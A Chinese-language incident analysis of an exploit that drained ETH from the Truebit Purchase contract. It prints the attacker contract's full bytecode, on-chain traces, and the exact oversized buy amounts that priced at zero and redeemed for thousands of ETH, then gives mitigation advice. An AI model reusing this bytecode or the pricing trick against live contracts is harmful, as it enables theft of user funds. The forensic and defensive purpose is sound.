








# 20260109 - Truebit Purchase 池子被抽干事件


## 查看transaction详情

cast tx 0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014  --rpc-url https://eth.llamarpc.com



攻击者：0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50  
攻击者的合约：0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8  
方法签名: 0x64dd891a 参数：16345785d8a0000 
交易value: 0.1 eth


攻击者攻击使用的方法的方法签名推测可能为：attack(uint256)

## 查看攻击者合约的字节码：
cast code 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8  --rpc-url https://eth.llamarpc.com



```
0x6080604052600436101561001a575b3615610018575f80fd5b005b5f3560e01c80633ccfd60b14610d405780634b70f3ed146109dc57806364dd891a146106365780636e8af9fb1461060d57806389476069146104bc5780638da5cb5b14610478578063d4b8399214610434578063e99b36d4146100c95763fc0c546a0361000e57346100c5575f3660031901126100c5576040517f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b03168152602090f35b5f80fd5b60403660031901126100c5576024357f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316600435610110338314610d9a565b47907f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef2905f80604051602081019063c59d563360e01b82528460248201526024815261015d604482610dd3565b519082865af161016b610e09565b90156103fa57602081519181808201938492010103126100c55751904782116103c5575f918291604051602081019163a029621560e01b83526024820152602481526101b8604482610dd3565b5191855af16101c5610e09565b5015610393576040516370a0823160e01b81523060048201527f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b031691602082602481865afa9182156102eb575f9261035f575b5060405163095ea7b360e01b81526001600160a01b03821660048201526024810183905292602090849060449082905f905af19182156102eb575f938493610332575b5082604051602081019263c471b10b60e01b845260248201526024815261028b604482610dd3565b51925af1610297610e09565b50156102ff575f8080936102d0828080806102b3819947610e60565b9a6102bf818d11610e6d565b415af16102ca610e09565b50610eb9565b47908282156102f6575bf1156102eb57602090604051908152f35b6040513d5f823e3d90fd5b506108fc6102da565b60405162461bcd60e51b815260206004820152600b60248201526a14d95b1b0819985a5b195960aa1b6044820152606490fd5b6103539060203d602011610358575b61034b8183610dd3565b810190610e48565b610263565b503d610341565b9091506020813d60201161038b575b8161037b60209383610dd3565b810103126100c557519086610220565b3d915061036e565b60405162461bcd60e51b815260206004820152600a602482015269109d5e4819985a5b195960b21b6044820152606490fd5b60405162461bcd60e51b815260206004820152600d60248201526c10d85b9b9bdd081859999bdc99609a1b6044820152606490fd5b60405162461bcd60e51b8152602060048201526012602482015271141c9a58d94818da1958dac819985a5b195960721b6044820152606490fd5b346100c5575f3660031901126100c5576040517f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef26001600160a01b03168152602090f35b346100c5575f3660031901126100c5576040517f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b03168152602090f35b346100c55760203660031901126100c5576004356001600160a01b038116908181036100c5577f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b509160249060209061051e336001600160a01b03871614610d9a565b6040516370a0823160e01b815230600482015292839182905afa9081156102eb575f916105d9575b5060405163a9059cbb60e01b602082019081526001600160a01b039490941660248201526044808201929092529081525f928392918390610588606482610dd3565b51925af1610594610e09565b501561059c57005b60405162461bcd60e51b8152602060048201526015602482015274151bdad95b881d1c985b9cd9995c8819985a5b1959605a1b6044820152606490fd5b9190506020823d602011610605575b816105f560209383610dd3565b810103126100c55790515f610546565b3d91506105e8565b346100c55760203660031901126100c55760043560058110156100c55760209054604051908152f35b60203660031901126100c5576004357f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b031661067a338214610d9a565b7f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef28031907f6716b322fccc3352e152d32e902fc2871ba82dd1fb7e3196e9179a48b4f946e3604047938151908152846020820152a17f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b0316915f5b60058110156109b7578054905f80604051602081019063c59d563360e01b825285602482015260248152610731604482610dd3565b519082885af161073f610e09565b901561099057602081519181808201938492010103126100c5575191478311610990575f80604051602081019063a029621560e01b82528460248201526024815261078b604482610dd3565b519086895af1610799610e09565b5015610990576040516370a0823160e01b8152306004820152906020826024818a5afa9182156102eb575f9261095d575b5060405163095ea7b360e01b81526001600160a01b0387166004820152602481018390526020816044815f8c5af180156102eb57610941575b50475f80604051602081019063c471b10b60e01b82528660248201526024815261082e604482610dd3565b5190828b5af161083c610e09565b50156108ca5761084c9047610e60565b9360018401908185116108b6576001957fa0d7b17f422ea83e28a4c4e6c63d1084a89a826c9d404d269c168bbc3415d153946108ad92604051958695869192608093969594919660a084019784526020840152604083015260608201520152565b0390a1016106fc565b634e487b7160e01b5f52601160045260245ffd5b50505050505f9485949185945084935f516020610ef55f395f51905f52926108f56060935b47610e60565b9131610902828411610e6d565b6109158780808086415af16102ca610e09565b60405192835260208301526040820152a14790828215610938575bf1156102eb57005b506108fc610930565b6109589060203d81116103585761034b8183610dd3565b610803565b9091506020813d8211610988575b8161097860209383610dd3565b810103126100c5575190896107ca565b3d915061096b565b5050505f9485949185945084935f516020610ef55f395f51905f52926108f56060936108ef565b505f9485949185945084935f516020610ef55f395f51905f52926108f56060936108ef565b5f3660031901126100c5577f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316610a1c338214610d9a565b7f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef2908131907f6716b322fccc3352e152d32e902fc2871ba82dd1fb7e3196e9179a48b4f946e3604047938151908152846020820152a17f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b0316905f5b6005811015610d1c578054905f80604051602081019063c59d563360e01b825285602482015260248152610ad4604482610dd3565b5190828a5af1610ae2610e09565b9015610cf657602081519181808201938492010103126100c5575191478311610cf6575f80604051602081019063a029621560e01b825284602482015260248152610b2e604482610dd3565b5190868b5af1610b3c610e09565b5015610cf6576040516370a0823160e01b815230600482015290602082602481895afa9182156102eb575f92610cc3575b5060405163095ea7b360e01b81526001600160a01b0389166004820152602481018390526020816044815f8b5af180156102eb57610ca7575b50475f80604051602081019063c471b10b60e01b825286602482015260248152610bd1604482610dd3565b5190828d5af1610bdf610e09565b5015610c5957610bef9047610e60565b9360018401908185116108b6576001957fa0d7b17f422ea83e28a4c4e6c63d1084a89a826c9d404d269c168bbc3415d15394610c5092604051958695869192608093969594919660a084019784526020840152604083015260608201520152565b0390a101610a9f565b50505050505f9384938493506060849392610c825f516020610ef55f395f51905f529347610e60565b90316040519182526020820152846040820152a1479082821561093857f1156102eb57005b610cbe9060203d81116103585761034b8183610dd3565b610ba6565b9091506020813d8211610cee575b81610cde60209383610dd3565b810103126100c557519088610b6d565b3d9150610cd1565b5050505f9384938493506060849392610c825f516020610ef55f395f51905f52936108ef565b505f9384938493506060849392610c825f516020610ef55f395f51905f52936108ef565b346100c5575f3660031901126100c5575f8080807f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316610d89338214610d9a565b479082821561093857f1156102eb57005b15610da157565b60405162461bcd60e51b815260206004820152600a60248201526927b7363c9037bbb732b960b11b6044820152606490fd5b90601f8019910116810190811067ffffffffffffffff821117610df557604052565b634e487b7160e01b5f52604160045260245ffd5b3d15610e43573d9067ffffffffffffffff8211610df55760405191610e38601f8201601f191660200184610dd3565b82523d5f602084013e565b606090565b908160209103126100c5575180151581036100c55790565b919082039182116108b657565b15610e7457565b60405162461bcd60e51b815260206004820152601a60248201527f4e6f742070726f66697461626c652061667465722062726962650000000000006044820152606490fd5b15610ec057565b60405162461bcd60e51b815260206004820152600c60248201526b109c9a58994819985a5b195960a21b6044820152606490fdfee2ca9b9c723a2d935eed69e4eb3a67ef35c993358a09e8685756e44a4d79eef2a2646970667358221220e682f1ac7b3b043528661857e6ce0e4c7d9a39ec9b6b96c2b9deb624fcf87e9e64736f6c634300081e0033
```

攻击者合约的方法签名有：



withdraw()
withdrawToken(address)

三个常量写死在合约里的：  
owner() // 攻击者 EOA 攻击者: 0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50
target() // Truebit Purchase/资金池地址: 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2  
token()  // TRU token 地址: 0xf65b5c5104c4fafd4b709d9d60a185eae063276c

## 追踪攻击者合约方法

cast call 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8 "token()(address)"  --rpc-url https://eth.llamarpc.com


cast call 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8 "target()(address)"  --rpc-url https://eth.llamarpc.com --block 24191019


cast call 0xf65b5c5104c4fafd4b709d9d60a185eae063276c "symbol()(string)"   --rpc-url https://eth.llamarpc.com



attack(uint256)方法：


## 查看 Purchase 合约（透明代理）

cast code 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2  --rpc-url https://eth.llamarpc.com

读取EIP-1967 implementation slot 得到 实现合约的地址：
cast storage 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2   0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc   --rpc-url https://eth.llamarpc.com

Purchase合约为透明代理，0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2为Proxy合约地址，且为透明代理合约。

真实实现合约地址为：
0xc186e6f0163e21be057e95aa135edd52508d14d3



基于 4byte/反编译推断:
cast 4byte 0xa0296215   # buyTRU(uint256)  
cast 4byte 0xc471b10b   # sellTRU(uint256)  
cast 4byte 0xc59d5633   # getPurchasePrice(uint256)  
cast 4byte 0xc4fd5002   # getsellTRUPrice(uint256)  
cast 4byte 0xcd3293de   # reserve()  




## 查看交易回执

cast receipt 0xcd4755...b014 --rpc-url $ETH_RPC_URL --json > receipt.json


jq -c '
  .logs[]
  | select(.address|ascii_downcase=="0xf65b5c5104c4fafd4b709d9d60a185eae063276c")
  | select(.topics[0]=="0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef")
  | {logIndex, topics, data}
' receipt.json > tru_transfer_logs.jsonl





cast receipt 0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014   --rpc-url $ETH_RPC_URL --json > receipt.json

jq -c '
  .logs[]
  | select(.address|ascii_downcase=="0xf65b5c5104c4fafd4b709d9d60a185eae063276c")
  | select(.topics[0]|ascii_downcase=="0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef")
  | . as $l
  | ($l.topics[1] | ascii_downcase) as $t1
  | ($l.topics[2] | ascii_downcase) as $t2
  | ("0x" + ($t1[-40:])) as $from
  | ("0x" + ($t2[-40:])) as $to
  | ($l.data | ascii_downcase) as $data
  | {
      logIndex: $l.logIndex,
      from: $from,
      to: $to,
      kind: (if $from=="0x0000000000000000000000000000000000000000" then "MINT"
             elif $to=="0x0000000000000000000000000000000000000000" then "BURN"
             else "TRANSFER" end),
      amount_hex: $data
    }
' receipt.json > tru_transfer_decoded.jsonl


```
{
  "logIndex": "0x8",
  "from": "0x0000000000000000000000000000000000000000",
  "to": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "kind": "MINT",
  "amount_hex": "0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"
}
{
  "logIndex": "0xa",
  "from": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "to": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "kind": "TRANSFER",
  "amount_hex": "0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"
}
{
  "logIndex": "0xc",
  "from": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "to": "0x0000000000000000000000000000000000000000",
  "kind": "BURN",
  "amount_hex": "0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"
}
{
  "logIndex": "0xe",
  "from": "0x0000000000000000000000000000000000000000",
  "to": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "kind": "MINT",
  "amount_hex": "0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"
}
{
  "logIndex": "0x10",
  "from": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "to": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "kind": "TRANSFER",
  "amount_hex": "0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"
}
{
  "logIndex": "0x12",
  "from": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "to": "0x0000000000000000000000000000000000000000",
  "kind": "BURN",
  "amount_hex": "0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"
}
{
  "logIndex": "0x14",
  "from": "0x0000000000000000000000000000000000000000",
  "to": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "kind": "MINT",
  "amount_hex": "0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"
}
{
  "logIndex": "0x16",
  "from": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "to": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "kind": "TRANSFER",
  "amount_hex": "0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"
}
{
  "logIndex": "0x18",
  "from": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "to": "0x0000000000000000000000000000000000000000",
  "kind": "BURN",
  "amount_hex": "0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"
}
{
  "logIndex": "0x1a",
  "from": "0x0000000000000000000000000000000000000000",
  "to": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "kind": "MINT",
  "amount_hex": "0x0000000000000000000000000000000000000000091331352846369f78c25c5f"
}
{
  "logIndex": "0x1c",
  "from": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "to": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "kind": "TRANSFER",
  "amount_hex": "0x0000000000000000000000000000000000000000091331352846369f78c25c5f"
}
{
  "logIndex": "0x1e",
  "from": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "to": "0x0000000000000000000000000000000000000000",
  "kind": "BURN",
  "amount_hex": "0x0000000000000000000000000000000000000000091331352846369f78c25c5f"
}
{
  "logIndex": "0x20",
  "from": "0x0000000000000000000000000000000000000000",
  "to": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "kind": "MINT",
  "amount_hex": "0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"
}
{
  "logIndex": "0x22",
  "from": "0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8",
  "to": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "kind": "TRANSFER",
  "amount_hex": "0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"
}
{
  "logIndex": "0x24",
  "from": "0x764c64b2a09b09acb100b80d8c505aa6a0302ef2",
  "to": "0x0000000000000000000000000000000000000000",
  "kind": "BURN",
  "amount_hex": "0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"
}
```


For 循环 5次： 

### Round 1（logIndex 0x8 / 0xa / 0xc）

Mint：0x0 → 0x1De3...11b8
amount = 0x...c6e3ae8e2cbab1298abaa3 = 240,442,509.45354533 TRU

Transfer：0x1De3...11b8 → 0x764C...2EF2（Purchase）

Burn：0x764C...2EF2 → 0x0
amount 同上（完全一致）

### Round 2（0xe / 0x10 / 0x12）

amount = 0x...016ccb8976fdb1728dc1a45e = 441,010,174.51389 TRU

同样：mint → 转入 Purchase → burn（amount 一致）

### Round 3（0x14 / 0x16 / 0x18）

amount = 0x...0322fcc50b35f89607cb6510 = 970,752,178.5010233 TRU

同样三段式

### Round 4（0x1a / 0x1c / 0x1e）

amount = 0x...091331352846369f78c25c5f = 2,808,567,055.501947 TRU

同样三段式

### Round 5（0x20 / 0x22 / 0x24）

amount = 0x...288c39fe96308e75654c4ef6 = 12,548,923,878.784676 TRU

同样三段式

## 完整攻击流程

cast run --rpc-url $env:ETH_RPC_URL `
  --decode-internal `
  --trace-printer `
  $TX | Out-File cast_run_trace.txt -Encoding utf8


jq -c '
  .. | objects
  | select(has("to") and has("input"))
  | select((.to|ascii_downcase)=="0x764c64b2a09b09acb100b80d8c505aa6a0302ef2")
  | {type, from, to, value, input, selector: (.input[0:10]), output, error}
' trace_callTracer.json > calls_to_purchase_with_output.jsonl


```
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d5633000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000000000000000000","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xa0296215000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000000000000000000","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000114bf0f22ce0757eb5e","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000000000000000006","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x6","input":"0xa02962150000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000000000000000006","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000088371252f11e393d48","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d563300000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000001224049032319","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x1224049032319","input":"0xa029621500000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000001224049032319","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b00000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xc471b10b","output":"0x00000000000000000000000000000000000000000000002ad33632f75a67bbb2","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000035e3bc453b621f","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x35e3bc453b621f","input":"0xa02962150000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000035e3bc453b621f","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000006bf55a1e2666cb08e","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xc59d5633","output":"0x00000000000000000000000000000000000000000000000046fc1d5917dc2cd3","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x46fc1d5917dc2cd3","input":"0xa02962150000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xa0296215","output":"0x00000000000000000000000000000000000000000000000046fc1d5917dc2cd3","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xc471b10b","output":"0x00000000000000000000000000000000000000000000000073bc85cf8fd29d9a","error":null}


```

## 攻击代码分析


## 1) 三个 selector 的真实作用

### `0xc59d5633(amount)` = `getPurchasePrice(uint256)`（报价 / view）
- 特征：`value = 0`，返回 `output` 为一个 `uint256`（wei）。
- 证据链：每一轮中，该 `output` **严格等于**下一步 `buy`（`0xa0296215`）调用时的 `msg.value`，并且 `buy` 的 `output` 也回显同样的数值。
- 各轮输出（wei）：
  - Round1：`0x0`
  - Round2：`0x6`
  - Round3：`0x1224049032319`
  - Round4：`0x35e3bc453b621f`
  - Round5：`0x46fc1d5917dc2cd3`

### `0xa0296215(amount)` = `buyTRU(uint256)`（payable 买入 / 触发 mint）
- 特征：payable，`msg.value` 非 0 时会带入调用；`output` 回显 `msg.value`。
- 证据链：每轮中 `buy` 的 `value` **等于**上一条 `getPurchasePrice` 的 `output`，且 `buy` 的 `output` 也等于该数值。

### `0xc471b10b(amount)` = `sellTRU(uint256)`（销毁并兑付 ETH）
- 特征：`value = 0`，返回 `output` 为一个 `uint256`（wei），且该值对应 Purchase 实际兑付给攻击合约的 ETH 数额。
- 证据链：5 次调用的 `output` 解码后，精确对应 5 笔巨额 ETH 兑付：
  - `0x114bf0f22ce0757eb5e` = **5105.06862519801295139 ETH**
  - `0x88371252f11e393d48` = **2512.725519441713511752 ETH**
  - `0x2ad33632f75a67bbb2` = **789.982659124501396402 ETH**
  - `0x06bf55a1e2666cb08e` = **124.467568270275031182 ETH**
  - `0x73bc85cf8fd29d9a` = **8.339687736500985242 ETH**

---

## 2) 5 轮完整攻击路径（TRU 数量来自 logs 的 amount_hex）

> 每轮结构：`getPurchasePrice(amount)` → `buyTRU(amount)`（支付 msg.value）→ `sellTRU(amount)`（返回兑付 ETH）  
> 且同一轮 TRU 事件表现为：`mint → attacker→purchase → burn`，amount 完全一致。

| Round | TRU amount | 买入成本（getPurchasePrice / msg.value） | 赎回收入（c471b10b output） | 单轮利润（未扣 bribe/gas） |
|---|---:|---:|---:|---:|
| 1 | 240,442,509.4535453339 | 0 ETH | 5105.06862519801295139 ETH | 5105.06862519801295139 ETH |
| 2 | 441,010,174.5138900269 | 6 wei | 2512.725519441713511752 ETH | 2512.725519441713511746 ETH |
| 3 | 970,752,178.5010233009 | 0.000319134474904345 ETH | 789.982659124501396402 ETH | 789.982339990026492057 ETH |
| 4 | 2,808,567,055.5019471605 | 0.015168571520541215 ETH | 124.467568270275031182 ETH | 124.452399698754489967 ETH |
| 5 | 12,548,923,878.7846756649 | 5.114995545275641043 ETH | 8.339687736500985242 ETH | 3.224692191225344199 ETH |

---

## 3) 已能确定的漏洞类型

基于 trace 证据可以确定：

1. Purchase 的购买报价函数 `getPurchasePrice(amount)` 在超大 `amount` 下返回 **极小值甚至为 0**（Round1 = 0，Round2 = 6 wei，后续仍远低于正常水平）。
2. 合约随后允许 `buyTRU(amount)` 以 **msg.value = getPurchasePrice(amount)** 成功执行（每轮 `buy` 的 `value` 与 `getPurchasePrice` 的 `output` 严格一致）。
3. 紧接着 `sellTRU(amount)`（`0xc471b10b`）对同一 `amount` 兑付 **巨额 ETH**（5 次 output 分别为 5105/2512/789/124/8 ETH 级别）。
4. 同一轮内 TRU 发生 `mint → 转入 Purchase → burn` 的闭环，说明 TRU 更像是触发赎回/兑付路径的中间资产，而攻击收益来自 Purchase 的 ETH reserve 流出。

因此，该事件可以归类为：

- **“购买定价函数在大输入域下失真/退化（返回 0 或极小值）导致可用极低成本买入大量 TRU，再通过赎回/退休逻辑按另一套定价或正常逻辑兑付 ETH，从而形成无风险套利并抽干 reserve”**。

注意：目前证据足以锁定“**购买端定价/校验存在严重缺陷**”，但具体根因（整数精度截断、比例因子/运算顺序错误、unchecked/assembly 算术、缺少输入上限等）需要结合实现合约反编译/源码进一步确认。


## Purchase 实现合约字节码分析


### 1) 合约确实是“Purchase/Reserve + Mint/Burn”模型
在实现合约 bytecode 中能直接识别对 TRU token 的外部调用 selector（说明业务路径包含铸币/销毁/授权/拉币）：
- `0x40c10f19` → `mint(address,uint256)`（buy 路径触发铸币）
- `0x42966c68` → `burn(uint256)`（sellTRU 路径触发销毁）
- `0x23b872dd` → `transferFrom(address,address,uint256)`（sellTRU 时从用户拉币到合约）
- `0xdd62ed3e` → `allowance(address,address)`（sellTRU 前检查授权）
- `0x18160ddd` → `totalSupply()`（价格/赎回计算常见依赖项）

这与链上事件观察到的 `mint → attacker→purchase → burn` 完全吻合。

## 2) 三个关键selector

### `0xc59d5633(amount)` = `getPurchasePrice(uint256 amount)`（报价 / view）
- 特征：`value = 0`，`output` 为 `uint256`（wei）。
- 证据：每一轮中该函数的 `output` **严格等于**下一步 `0xa0296215`（buy）调用时的 `msg.value`。

### `0xa0296215(amount)` = `buyTRU(uint256 amount)`（payable 买入 / 触发 mint）
- 特征：payable，调用时带入 `msg.value`，`output` 回显 `msg.value`。
- Bytecode 里存在明确错误字符串：`"ETH payment does not match TRU order"`
  - 说明逻辑等价于：`require(msg.value == getPurchasePrice(amount))`
- 同时该路径会调用 token 的 `mint(msg.sender, amount)`（selector `0x40c10f19`）。

### `0xc471b10b(amount)` = `sellTRU(uint256 amount)`（销毁并兑付 ETH）
- 特征：`value = 0`，`output` 为 `uint256`（wei），且与 Purchase 实际兑付 ETH 数额一致。
- Bytecode 能看到该路径包含：
  - `allowance` 检查，不足会 revert：`"Insufficient TRU allowance"`
  - `transferFrom(user, this, amount)` 拉走 TRU
  - `burn(amount)` 销毁 TRU
  - `call{value: refund}("")` 给调用者转 ETH
- Trace 进一步证明：5 次调用的 `output` 就是 5 笔巨额 ETH 兑付额。

## 3) 用实现合约逻辑解释“攻击为什么成立”

攻击可总结为一个确定性套利闭环：

1. 攻击者对同一 `amount` 先调用 `getPurchasePrice(amount)` 得到购买报价 `price`。
2. 调用 `buyTRU(amount)`，并支付 `msg.value = price`（严格匹配，因为合约要求等值支付）。
3. `buyTRU` 触发 `mint(msg.sender, amount)`：TRU 被铸造给攻击者（事件表现为 `Transfer(0x0 → attacker, amount)`）。
4. 攻击者随后调用 `sellTRU(amount)`（`0xc471b10b`）：
   - 合约 `transferFrom` 拉走 TRU（事件表现为 `attacker → purchase`）
   - 合约 `burn(amount)` 销毁 TRU（事件表现为 `purchase → 0x0`）
   - 合约从 reserve 兑付 ETH 给攻击者（该函数 `output` 即兑付 wei）

## 测试价格方法

小额价格：
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2   "getPurchasePrice(uint256)(uint256)" 1000000000000000000   --rpc-url https://eth.llamarpc.com --block 24191018 // 422342518139879 


攻击中使用的超大数量：
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2   "getPurchasePrice(uint256)(uint256)" 240442509453545333947284131   --rpc-url https://eth.llamarpc.com --block 24191018 //0

卖出价格：
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2   "getsellTRUPrice(uint256)(uint256)" 240442509453545333947284131   --rpc-url https://eth.llamarpc.com --block 24191018 //12693636824572596709415




getPurchasePrice 对极大输入返回 0，说明 输入域约束缺失或整数运算顺序/精度截断问题（是否存在溢出需结合实现合约 bytecode/trace确认）

# 结论
漏洞本质是买入端 getPurchasePrice(amount) 在超大 amount 输入域出现退化（0 或极小值），导致 buyTRU(amount) 以极低 msg.value 仍能通过等值校验并触发铸币。

赎回端 sellTRU(amount) 对同一 amount 计算的兑付却是巨额 ETH（5 次 output 分别约 5105/2512/789/124/8 ETH），形成确定性套利闭环，循环抽干 reserve。  

根因层（需反编译/源码确认）：可能是整数精度截断/缩放因子错误/运算顺序问题/缺少输入上限导致公式在大输入域退化；当前证据不足以把根因锁死为"溢出"。


# 安全建议(建议自查)

1. 对 amount 加上限（例如基于 reserve、totalSupply、或者业务允许的最大订单）

2. 加入非零价格断言：require(price > 0, "price=0")

3. 买卖定价一致性检查（invariant）：同一 amount 下 sellTRUPrice <= purchasePrice * (1 - fee)（或按业务定义）

4. 紧急暂停开关（circuit breaker / pause）

5. 上链监控：检测 getPurchasePrice(large amount) == 0、或单笔 sell 兑付超过阈值立即报警


